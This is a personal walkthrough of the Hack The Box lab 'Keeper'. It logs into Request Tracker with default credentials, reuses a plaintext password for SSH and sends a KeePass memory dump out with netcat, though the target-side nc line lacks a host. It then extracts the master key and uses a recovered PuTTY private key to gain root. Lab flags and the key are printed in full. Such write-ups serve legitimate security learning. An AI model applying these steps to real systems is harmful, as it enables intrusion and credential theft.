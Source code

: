```yaml
---
title: HTB 2 - Keeper
tag: htb
category: cyber
---
```


## Comments

This was an easy box and I didn't have to refer to any walkthrough to solve it. Being able to solve it completely on my own after struggling so much with the much harder Cozyhosting box was pretty fulfilling.


## Walkthrough

Target IP: 

    10.10.11.227

### Enumeration

First do an nmap scan which shows the following ports:

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-favicon: Unknown favicon MD5: CF60F068F7A5343704B608CCE387F31F
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: Login
    |_http-trane-info: Problem with XML parsing of /evox/about
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Pretty default ports. Take note of the open `ssh` port which might be useful later on if we get ssh credentials.

Visit target IP on browser points to `tickets.keeper.htb/rt/`

Add `tickets.keeper.htb` to our `/etc/hosts` file

The website is using RequestTracker v4.4.4+dfsg-2ubuntu1 and is requesting for a login.

RequestTracker (RT) is a free software for tracking IT tickets.

Maybe we can try to find some common login credentials? 

Let's try the default login `root:password` provided by Google. It works!

### Foothold

Exploring the admin dashboard of the RT website, we can find interesting info under

    Admin > Tools > System Config

The database information might come in handy later. Let's keep it.

Another find is under `Users > Select` which shows the existing user accounts and additional info.

We are logged in as `root` which has SuperUser access. The other account `lnorgaard` somehow has its password stored in plaintext in the comments field.

Since `ssh` is open, let's try `ssh root@...` with the default password. Doesn't work, at least they changed it.

Now let's try `ssh lnorgaard@...` with `Welcome2023!`... looks like Lisa didn't change her default password. We get the user.txt = ef14585dce7035b1e1af3048d012c60b

### Privilege Escalation

Next, we check if `lnorgaard` has any sudo privileges.

    sudo -l
    > Sorry, user lnorgaard may not run sudo on keeper.

Looking around the user files, we can find some suspicious information:

    KeePassDumpFull.dmp  passcodes.kdbx  RT30000.zip  user.txt

`RT30000.zip` is just the compressed version of the first 2 files. The `.zip` is 80MB while the other files are 300MB. 

`.kdbx` stands for KeePassDatabaseExtension, which is a file-store database that holds encrypted KeePass passwords.

### Exploit

KeePass databases are meant to be opened with the KeePass program or with `kpcli` in the CLI. KeePass encrypts all the passwords stored inside it using a master key password. So we need a way to get this master key if we are to read the passwords.

Luckily, there seems to be a memory dump of the entire KeePass program either while it was running or setup (and crashed).

There is already an [exploit](https://github.com/vdohney/keepass-password-dumper) for KeePass memdumps.
According to the above PoC, there is a vulnerability in KeePass where the master key plaintext is exposed during the setup and can be extracted in the memdump. This tool extracts the master key from a memdump file.

Since the tool is built in .NET, we have to use a Windows machine to run it.

First, we'll download the `RT30000.zip` locally. I chose to use `netcat` to transfer the file over. 

    LOCAL

    nc -lvnp 1234 > RT30000.zip

    TARGET
    nc -p 1234 < RT30000.zip

Next, I am running a VM inside my Windows machine so I transfer `RT30000.zip` over via SCP by running `pscp` on Windows.

    pscp user@<VM_eth0_IP>:[VM_source_path] [Windows_dest_path]

Side note for this to work:
- VM network must be set up to use Bridged Adapter mode.
- You should use the IP address of the `eth0` adapter and not the `tun0` VPN IP
- Make sure OpenSSH is installed in the VM and `ufw` is allowing `ssh` (use `sudo ufw enable | ufw allow ssh`)

Remember to unzip the file after so you have `KeePassDumpFull.dmp` in the directory.

Run the .NET program on Windows:

    cd keepass-password-dumper
    dotnet run [PATH_TO_DUMP]

The master key is pretty clear, except for the first 2 characters (expected):

    __dgrød med fløde

We could brute force it but a Google search of `dgrød med fløde` returns `rødgrød med fløde` which is Danish red berry pudding. Makes sense since our user has a Scandinavian name. 

With this master key, we go back to our local machine and run `kpcli` on the `.kdbx` with the key. Note that `kpcli` needs to be installed first.

KeePass stores data in directory format. After some exploration, I found the entry for the RT server:

    Title: keeper.htb (Ticketing Server)
    Uname: root
    Pass: F4><3K0nd!
    URL: 
    Notes: PuTTY-User-Key-File-3: ssh-rsa
        Encryption: none
        Comment: rsa-key-20230519
        Public-Lines: 6
        AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
        8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
        EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
        Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
        FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
        LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
        Private-Lines: 14
        AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
        oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
        kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
        f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
        VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
        UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
        OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
        in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
        SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
        09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
        xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
        AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
        AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
        NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
        Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

We have a plaintext password `F4><3K0nd!` for `root`. Note: Faxe Kondi is a Danish soft drink.

However, these credentials still don't allow us to `ssh` as `root`. Maybe the password was changed...

We have an easier way in. In the notes section, there is a plaintext Putty ssh key!

Since Putty is only for Windows, we have to convert the Putty key into an OpenSSH key which we can use directly in Linux.

To do this:
1. Copy over the entire text inside Notes
2. Save the text file as `.ppk`
3. Convert `.ppk` into `.pem`. Install `puttygen` first.

        puttygen root.ppk -O private-openssh -o root.pem

4. `ssh` with `.pem`

        ssh -i root.pem root@10.10.11.227

Once in root, the root.txt = 9178ec92153cd5bd22bb4ebf5425229c


*That's all for tonight, ciao.*


